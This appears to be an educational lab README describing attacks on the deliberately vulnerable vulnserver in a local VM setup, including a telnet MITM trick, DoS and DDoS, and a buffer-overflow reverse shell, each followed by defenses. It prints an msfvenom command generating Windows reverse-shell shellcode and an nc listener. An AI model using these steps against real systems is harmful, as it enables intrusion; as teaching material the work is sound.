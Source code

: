 # Attacks against vulnserver

- [MITM](#mitm)
- [DoS](#dos)
- [DDoS](#ddos)
- [Armitage against vchat](../../MetasploitNewModule)
- [Reverse shell utilizing buffer overflow](#reverse-shell)
- [More buffer overflow attacks](../../Buffer-Overflow/BOF-Remote/)
- [More attacks against vnserver](https://github.com/llan-OuO/VulserverAttacks)

## Test setting
- Local host (kali VM): 10.0.2.8
- Victim host (Windows 10 VM: 10.0.2.7

## MITM
### Attack
This attack shows how a message may be changed by the chat server, which works as the man in the middle (MITM) between two chat clients, if there is no protection (interity). To enabe the attack, the chat server owner (bad guy) can do the following

1. Use telnet to connect to the chat server
```
telnet 10.0.2.7 9999
```

2. Enable MITM within telnet 
```
MITM 1
```
Now all messages will be appended with " hahaha...".

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/1dctJFBwZcI/0.jpg)](https://youtu.be/1dctJFBwZcI)

### Defense
* [Hash](https://www.cyberciti.biz/faq/linux-md5-hash-string-based-on-any-input-string/) - What is the problem if only hash is used?

```
echo -n 'Your-String-Here' | md5sum
```

* [HMAC with hash (SHA or MD5)](https://dinochiesa.github.io/hmachash/index.html)
* [Digital signature](https://opensource.com/article/19/6/cryptography-basics-openssl-part-2) - Note: 2048 in the following command is used in the wrong way.
```
openssl genpkey -out privkey.pem -algorithm rsa 2048
```
Correct command is
```
openssl genpkey -out privkey.pem -algorithm rsa -pkeyopt rsa_keygen_bits:2048
```
Or 2048 can be skipped since the default key size is 2048.

Example signature generation and verification process
```
openssl genpkey -out privkey.pem -algorithm rsa
openssl rsa -in privkey.pem -outform PEM -pubout -out pubkey.pem
openssl dgst -sha256 -sign privkey.pem -out sign.sha256 changelog
openssl enc -base64 -in sign.sha256 -out sign.sha256.base64
openssl enc -base64 -d -in sign.sha256.base64 -out sign.sha256
openssl dgst -sha256 -verify pubkey.pem -signature sign.sha256 changelog
```

## DoS
DoS.py
### Attack
This attack exploits the buffer overflow issue of vulnserver and sends a long message, which causes buffer overflow and crash of vulnserver.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/_F88Txt7Qk0/0.jpg)](https://youtu.be/_F88Txt7Qk0)

### Defense
The attack above utilizes the buffer overflow vulnerability of vulnserver. Secure coding is needed for defense. Dangerous functions such as strcpy(.) cannot be used.

## DDoS
DDoS.py
### Attack
Since vulnserver allows only a limited number of connections, this attack creates a lot of connections to vulnserver so that no more new connections can be created and no new user can use vulnserver for chatting.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/lOR4hpPfPws/0.jpg)](https://youtu.be/lOR4hpPfPws)

### Defense
DDoS is often is hard to defeat. In this particular case, an attacker creates a lot of connections to the chat server. For defense, we may need to monitor the number of connections from an inidvidual user.

## reverse-shell
reverse-shell.py
### Attack
This attacks ubtilizes the buffer overflow vulnerability of vulnserver and sends a reverse tcp shell payload, which connects back to the attack and spawns a shell at the attacker.
To receive the reverse shell, run the following command at a terminal of Kali VM
```
nc -l -v -p 4444
``` 

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/LRNZxCC84RI/0.jpg)](https://youtu.be/LRNZxCC84RI)

### Notes
1. If the test setting above is used, the python attacking code works directly with no need of change.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, essfunc.dll does not use ASLR and there is no need of changing the address of *jmp esp* when Windows 10 reboots.
3. If the ip of the local host (attacker's computer) is 10.0.2.8, no need of generating the shellcode using the following command
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d' 
```

```
kali@kali:~$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

<!-- ![msfvenom](../../imgs/msfvenom.PNG) -->

### Defense
First secure coding is needed to avoid buffer overflow vulnerabilities.

* Windows has a lot of secure features, including those defeating memory based attacks. Sloppy coding is always there and people have cooked up defense mechnisms in case it happens. 

To enable all features of Exploit Protection of Windows, find :mag_right: at the bottom-left corner of Windows screen and search "Exploit Protection".

<img src="../Imgs/WindowsExploitProtection.png" width="25%">

* Virus & threat protection shall be enabled too. At the bottom-left corner of Windows screen and search "Virus". In this picture below, all those features are turned off.
<img src="../Imgs/VirusProtection.png" width="75%">
